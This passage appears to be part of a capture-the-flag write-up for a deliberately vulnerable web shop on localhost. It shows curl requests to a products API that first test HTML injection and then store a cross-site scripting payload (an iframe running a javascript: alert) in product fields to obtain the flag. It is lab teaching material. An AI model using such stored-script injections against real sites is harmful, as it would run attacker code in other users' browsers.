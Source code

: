 ```bash
curl -XPOST -H "Content-type: application/json" -H "Authorization: Bearer {token}" -d '{
      "id": 123456,
      "name": "TEST <b>BOLD</b>",
      "description": "TEST <b>BOLD</b>",
      "price": 1,
      "deluxePrice": 2,
      "image": "TEST <b>BOLD</b>",
      "createdAt":"2023-09-26T23:12:11.190Z",
      "updatedAt":"2023-09-26T23:12:11.190Z",
      "deletedAt":null
}' 'http://localhost:3000/api/Products'
```

and we get back something like: 

```json
{
  "status": "success",
  "data": {
    "id": 123456,
    "name": "TEST <b>BOLD</b>",
    "description": "TEST <b>BOLD</b>",
    "price": 1,
    "deluxePrice": 2,
    "image": "TEST <b>BOLD</b>",
    "createdAt": "2023-09-26T23:12:11.190Z",
    "updatedAt": "2023-09-27T01:24:17.774Z",
    "deletedAt": null
  }
}
```

So, now we can enter the payload into the description (remembering to escape the quotes):

```
<iframe src="javascript:alert(`xss`)">
```

```bash
curl -XPOST -H "Content-type: application/json" -H "Authorization: Bearer {token}" -d '{
      "id": 123458,
      "name": "<iframe src=\"javascript:alert(`xss`)\">",
      "description": "<iframe src=\"javascript:alert(`xss`)\">",
      "price": 1,
      "deluxePrice": 2,
      "image": "TEST <b>BOLD</b>",
      "createdAt":"2023-09-26T23:12:11.190Z",
      "updatedAt":"2023-09-26T23:12:11.190Z",
      "deletedAt":null
}' 'http://localhost:3000/api/Products'
```

And we get our flag.

# Conclusion
